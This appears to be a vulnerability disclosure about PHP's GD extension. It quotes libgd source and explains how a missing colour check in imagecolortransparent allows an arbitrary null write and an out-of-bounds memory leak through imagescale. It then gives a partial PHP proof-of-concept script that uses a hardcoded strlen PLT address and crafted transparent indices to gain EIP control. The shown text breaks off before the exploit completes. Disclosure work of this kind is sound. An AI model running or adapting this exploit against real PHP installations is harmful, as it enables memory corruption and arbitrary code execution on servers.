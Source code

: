 https://github.com/php/php-src/blob/master/ext/gd/libgd/gd.c#L598
```
void gdImageColorTransparent (gdImagePtr im, int color)
{
       if (!im->trueColor) {
               if (im->transparent != -1) {
                       im->alpha[im->transparent] = gdAlphaOpaque;
               }
               if (color > 1 && color < im>colorsTotal && color < gdMaxColors) {
                       im->alpha[color] = gdAlphaTransparent;
               } else {
                       return;
               }
       }
       im->transparent = color;
}
```
As you can see here, there's no check for color on truecolor images.  

Arbitrary Null Write
----------------------------
Setting im->transparent to a negative value, and then converting it to palette will allow to write an arbitrary null using gdImageColorTransparent again (above function):
```
       im->alpha[im->transparent] = gdAlphaOpaque;
```

Leak arbitrary memory using imagescale:
---------------------------------------------------------
https://github.com/php/php-src/blob/master/ext/gd/libgd/gd_interpolation.c#L1247 
```
static gdImagePtr gdImageScaleBilinearPalette(gdImagePtr im, const unsigned int new_width, const unsigned int new_height)
{
...
        new_img->transparent = gdTrueColorAlpha(im->red[transparent], im->green[transparent], im->blue[transparent], im->alpha[transparent]);   # transparent out of bounds
...
}
```
new_img->transparent value is calculated adding the values using transparent as an index.

EIP control
--------------
We are able to control EIP register by abusing these two issues:
```
<?php
ini_set('memory_limit', -1);

/*
objdump -d /home/user/php/php-70/sapi/cli/php|grep -A 2 strlen@plt

08065ce0 <strlen@plt>:
 8065ce0:       ff 25 c0 72 b4 08       jmp    *0x8b472c0
 8065ce6:       68 68 05 00 00          push   $0x568

*/
$plt_strlen = 0x8b472c0;

$img = imagecreatetruecolor($plt_strlen + 0x10, 1);  // Image with enough width to reach plt_strlen address
imagecolortransparent($img, -24060);    // Constant offset to reach first element from array img->pixels
imagetruecolortopalette($img, TRUE, 3);
imagecolortransparent($img, 0xff);     // Set to null first element from img->pixels  

```